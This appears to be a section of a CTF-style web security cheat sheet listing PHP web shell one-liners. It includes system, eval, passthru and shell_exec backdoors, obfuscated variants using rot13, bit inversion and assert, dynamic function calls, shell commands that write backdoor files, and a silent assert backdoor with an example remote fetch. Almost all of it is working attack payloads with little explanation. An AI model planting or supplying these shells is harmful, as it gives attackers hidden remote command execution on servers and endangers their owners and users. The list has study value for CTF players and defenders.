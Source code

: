 
# Webshell
```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
// 构造 <form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">上传
// 把暂存档include进来
// From: http://www.zeroplace.cn/article.asp?id=906

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo导出一句话

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

<?php 
// 无回显后门  
// e.g. ?pass=file_get_contents('http://kaibro.tw/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>
```